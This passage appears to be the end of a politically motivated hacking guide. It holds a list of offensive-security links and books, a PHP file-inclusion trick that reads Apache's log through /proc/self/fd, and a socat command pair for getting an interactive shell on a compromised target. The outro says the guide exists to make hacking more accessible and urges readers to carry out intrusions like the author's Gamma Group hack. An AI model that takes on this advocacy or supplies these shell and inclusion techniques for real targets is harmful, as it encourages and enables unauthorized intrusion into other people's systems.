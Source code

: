 * https://www.pentesterlab.com/exercises/
* http://overthewire.org/wargames/
* http://www.hackthissite.org/
* http://smashthestack.org/
* http://www.win.tue.nl/~aeb/linux/hh/hh.html
* http://www.phrack.com/
* http://pen-testing.sans.org/blog/2012/04/26/got-meterpreter-pivot
* http://www.offensive-security.com/metasploit-unleashed/PSExec_Pass_The_Hash
* https://securusglobal.com/community/2013/12/20/dumping-windows-credentials/
* https://www.netspi.com/blog/entryid/140/resources-for-aspiring-penetration-testers
  (all his other blog posts are great too)
* https://www.corelan.be/ (start at Exploit writing tutorial part 1)
* http://websec.wordpress.com/2010/02/22/exploiting-php-file-inclusion-overview/
  One trick it leaves out is that on most systems the apache access log is
  readable only by root, but you can still include from /proc/self/fd/10 or
  whatever fd apache opened it as. It would also be more useful if it mentioned
  what versions of php the various tricks were fixed in.
* http://www.dest-unreach.org/socat/
  Get usable reverse shells with a statically linked copy of socat to drop on
  your target and:
  target$ socat exec:'bash -li',pty,stderr,setsid,sigint,sane tcp-listen:PORTNUM
  host$ socat file:`tty`,raw,echo=0 tcp-connect:localhost:PORTNUM
  It's also useful for setting up weird pivots and all kinds of other stuff.

Books:

* The Web Application Hacker's Handbook
* Hacking: The Art of Exploitation
* The Database Hacker's Handbook
* The Art of Software Security Assessment
* A Bug Hunter's Diary
* Underground: Tales of Hacking, Madness, and Obsession on the Electronic Frontier
* TCP/IP Illustrated

Aside from the hacking specific stuff almost anything useful to a system
administrator for setting up and administering networks will also be useful for
exploring them. This includes familiarity with the windows command prompt and unix
shell, basic scripting skills, knowledge of ldap, kerberos, active directory,
networking, etc.


--[ 10 ]-- Outro

You'll notice some of this sounds exactly like what Gamma is doing. Hacking is a
tool. It's not selling hacking tools that makes Gamma evil. It's who their
customers are targeting and with what purpose that makes them evil. That's not
to say that tools are inherently neutral. Hacking is an offensive tool. In the
same way that guerrilla warfare makes it harder to occupy a country, whenever
it's cheaper to attack than to defend it's harder to maintain illegitimate
authority and inequality. So I wrote this to try to make hacking easier and more
accessible. And I wanted to show that the Gamma Group hack really was nothing
fancy, just standard sqli, and that you do have the ability to go out and take
similar action.

Solidarity to everyone in Gaza, Israeli conscientious-objectors, Chelsea
Manning, Jeremy Hammond, Peter Sunde, anakata, and all other imprisoned
hackers, dissidents, and criminals!